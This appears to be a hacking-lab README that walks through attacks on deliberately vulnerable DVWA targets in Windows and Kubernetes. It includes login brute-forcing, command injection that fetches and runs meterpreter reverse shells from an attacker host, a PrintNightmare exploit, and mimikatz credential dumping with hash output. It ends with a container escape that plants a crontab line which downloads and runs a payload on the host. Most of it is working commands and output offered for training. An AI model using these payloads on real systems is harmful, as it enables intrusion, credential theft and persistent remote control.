

# Hack Windows machine


- login to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- install some additional packages

```bash
sudo apt update
sudo apt install -y wordlists gobuster dirsearch metasploit-framework golang patator
```

## Port scanning

- scan your windows target with nmap

nmap -A <windows-privat-ip-address>

## dir buster

gobuster dir -u http://<windows-privat-ip-address>:8080 -w /usr/lib/python3/dist-packages/dirsearch/db/dicc.txt -q

## brute force login

- get a valid `user_token` and save it in the CSRF variable

```bash
CSRF=$(curl -s -c dvwa.cookie "<windows-privat-ip-address>:8080/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```

- get a valid session id

```bash
SESSIONID=$(grep PHPSESSID dvwa.cookie | cut -d $'\t' -f7)
```

- execute the patator brute force tool to get valid credentials

```bash
patator http_fuzz 1=/usr/share/wordlists/metasploit/http_default_users.txt 0=/usr/share/wordlists/metasploit/http_default_pass.txt --threads=8 timeout=1 --rate-limit=1 url="http://<windows-privat-ip-address>:8080/DVWA/login.php" method=POST body="username=FILE1&password=FILE0&user_token=${CSRF}&Login=Login" header="Cookie: PHPSESSID=${SESSIONID}" -x ignore:fgrep=login.php -x quit:fgrep=index.php follow=0 accept_cookie=0

09:01:15 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.10 at 2022-06-03 09:01 UTC
09:01:15 patator    INFO -                                                                              
09:01:15 patator    INFO - code size:clen       time | candidate                          |   num | mesg
09:01:15 patator    INFO - -----------------------------------------------------------------------------
09:01:17 patator    INFO - 302  424:0          0.012 | password:admin                     |    15 | HTTP/1.1 302 Found
09:01:18 patator    INFO - Hits/Done/Skip/Fail/Size: 1/22/0/0/234, Avg: 6 r/s, Time: 0h 0m 3s
09:01:18 patator    INFO - To resume execution, pass --resume 3,3,3,3,3,3,2,2
```

### fix patator

- if you get the following error `<class 'pycurl.error'> (49, "Couldn't parse CURLOPT_RESOLVE entry ''!")` then edit `/usr/bin/patator`

```bash
vim /usr/bin/patator
```

- search for `pycurl.RESOLVE` and comment out the line

```
#fp.setopt(pycurl.RESOLVE, [resolve])
```

## WebApp scanner

- install the WebApp scanner

```bash
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest

export GOROOT=/usr/lib/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
```

- scan the DVWA WebApp

```bash
nuclei -u http://<windows-privat-ip-address>:8080/dvwa
```

## Exploit command injectionin WebApp

- login to the DVWA WebApp `http://<windows-public-ip-address>:8080/dvwa` with with username `admin` and password `password`
- go to the Command Injection `http://<windows-public-ip-address>:8080/dvwa/vulnerabilities/exec`

- execute the first command

```powershell
|powershell -c ls
```

- read the text file

```powershell
|powershell -c cat installed-with-user.txt
```

- check the rights of the mondoo user

```cmd
|net user mondoo
```

- create a meterpreter reverse payload on your kali

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali-privat-ip-address> LPORT=4242 -f exe > met.exe
```

- install and start a web server on your kali

```
sudo gem install webrick
ruby -run -ehttpd . -p8001
```

- download the shell code via DVWA command injection

```powershell
|powershell -c wget "http://<kali-privat-ip-address>:8001/met.exe" -outfile "C:\windows\temp\met.exe"
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- start the metasploit multi handler to receive the connection from `met.exe`

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- execute the meterpreter shell

```powershell
|powershell -c C:\windows\temp\met.exe
```

## Exploit printnightmare

- start metasploit framework on the kali vm

```bash
msfconsole
```

- configure metasploit framework to exploit printnightmare vulnerability

```bash
msf6 > use exploit/windows/dcerpc/cve_2021_1675_printnightmare
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS <windows-privat-ip-address>
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER mondoo
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS mondoo.com
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > run

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > run

[*] Started reverse TCP handler on 10.0.4.196:4444 
[*] 10.0.4.131:445 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.4.131:445 - Target environment: Windows v10.0.14393 (x64)
[*] 10.0.4.131:445 - Enumerating the installed printer drivers...
[*] 10.0.4.131:445 - Retrieving the path of the printer driver directory...
[+] 10.0.4.131:445 - The target is vulnerable. Received ERROR_BAD_NET_NAME, implying the target is vulnerable.
[*] 10.0.4.131:445 - Server is running. Listening on 10.0.4.196:445
[*] 10.0.4.131:445 - Server started.
[*] 10.0.4.131:445 - The named pipe connection was broken, reconnecting...
[*] 10.0.4.131:445 - Successfully reconnected to the named pipe.
[*] 10.0.4.131:445 - The named pipe connection was broken, reconnecting...
[*] Command shell session 1 opened (10.0.4.196:4444 -> 10.0.4.131:51572) at 2022-06-03 10:31:46 +0000
[*] 10.0.4.131:445 - Server stopped.


Shell Banner:
Microsoft Windows [Version 10.0.14393]
-----
          
C:\Windows\system32>
```

## mimikatz

Mimikatz is an open-source application that allows users to view and save authentication credentials like Kerberos tickets

- download mimikatz to the windows vm

```powershell
C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

PS C:\Windows\system32> wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip" -outfile "C:\windows\temp\mimikatz_trunk.zip"
wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip" -outfile "C:\windows\temp\mimikatz_trunk.zip"
```

- exract the mimikatz zip file

```powershell
PS C:\Windows\system32> cd C:\windows\temp\
cd C:\windows\temp\

PS C:\windows\temp> Expand-Archive mimikatz_trunk.zip -Force
Expand-Archive mimikatz_trunk.zip -Force

PS C:\windows\temp> cd mimikatz_trunk\x64
cd mimikatz_trunk\x64
```

- start mimikatz and dump credentials from windows `lsass.exe` process

```powershell
PS C:\windows\temp\mimikatz_trunk\x64> .\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::msv

Authentication Id : 0 ; 3255438 (00000000:0031ac8e)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : EC2AMAZ-5A4CSBH
Logon Server      : EC2AMAZ-5A4CSBH
Logon Time        : 6/3/2022 9:35:18 AM
SID               : S-1-5-21-2073652273-2496418537-3488842278-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : EC2AMAZ-5A4CSBH
         * NTLM     : 7facdc498ed1680c4fd1448319a8c04f
         * SHA1     : 24b8b6c9cbe3cd8818683ab9cd0d3de14fc5c40b
.......
```

- use the web page [https://crackstation.net/](https://crackstation.net/) to crack the NTLM-hash of the Administrator

# Minikube hack



- login to your Ubuntu machine

```bash
ssh ubuntu@<ubuntu-public-ip-address>
```

- start the minikube kubernetes cluster

```bash
ubuntu@ip-10-0-4-175:~$ minikube start --driver=docker
😄  minikube v1.25.2 on Ubuntu 20.04 (xen/amd64)
✨  Using the docker driver based on user configuration
👍  Starting control plane node minikube in cluster minikube
🚜  Pulling base image ...
💾  Downloading Kubernetes v1.23.3 preload ...
    > preloaded-images-k8s-v17-v1...: 505.68 MiB / 505.68 MiB  100.00% 52.76 Mi
    > gcr.io/k8s-minikube/kicbase: 379.06 MiB / 379.06 MiB  100.00% 28.09 MiB p
🔥  Creating docker container (CPUs=2, Memory=2200MB) ...
🐳  Preparing Kubernetes v1.23.3 on Docker 20.10.12 ...
    ▪ kubelet.housekeeping-interval=5m
    ▪ Generating certificates and keys ...
    ▪ Booting up control plane ...
    ▪ Configuring RBAC rules ...
🔎  Verifying Kubernetes components...
    ▪ Using image gcr.io/k8s-minikube/storage-provisioner:v5
🌟  Enabled addons: storage-provisioner, default-storageclass
🏄  Done! kubectl is now configured to use "minikube" cluster and "default" namespace by default
```

- deploy the DVWA in the kubernetes cluster

```bash
ubuntu@ip-10-0-4-175:~$ kubectl apply -f dvwa-minikube-deployment.yaml
```

- get the POD name

```bash
ubuntu@ip-10-0-4-175:~$ kubectl get pods
NAME                                     READY   STATUS    RESTARTS   AGE
dvwa-container-escape-8654469d85-7kszd   1/1     Running   0          35s
```

- configure a port forwarding for the DVWA WebApp

```bash
ubuntu@ip-10-0-4-175:~$ kubectl port-forward --address 0.0.0.0 <dvwa-container-escape-....> 8080:80
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- create the meterpreter for the DVWA container

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<kali privat ip> LPORT=4242 -f elf > met-container
```

- start the metasploit framework for the DVWA container connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- create the reverse shell for the docker host

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<kali privat ip> LPORT=4243 -f elf > met-host
```

- start the metasploit framework for the docker host connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/shell/reverse_tcp;set lhost 0.0.0.0; set lport 4243;run'
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

Start the on liner web server that the victim can download the shells

```bash
ruby -run -ehttpd . -p8001
```

- execute the DVWA command injection exploit. After re-login go to [http://<ubuntu public ip>:8080/vulnerabilities/exec/](http://<ubuntu public ip>:8080/vulnerabilities/exec/) and execute the following commands.

```
;curl -vk http://<kali privat ip>:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met
```

- now you have a reverse meterpreter connection from the container, type `shell` to get a bash.
- get root within the DVWA container

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Execute the following commands in your DVWA root shell to get a root shell from the docker host

```bash
mkdir /tmp/host-hdd
mount /dev/xvda1 /tmp/host-hdd
echo "*/1 * * * * root curl -vk http://<kali privat ip>:8001/met-host -o /root/met && chmod 777 /root/met && /root/met" >> /tmp/host-hdd/etc/crontab
```

Now you got a root shell from your container host.

To delete the deployment just run:

```
kubectl delete -f dvwa-minikube-deployment.yaml
```

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.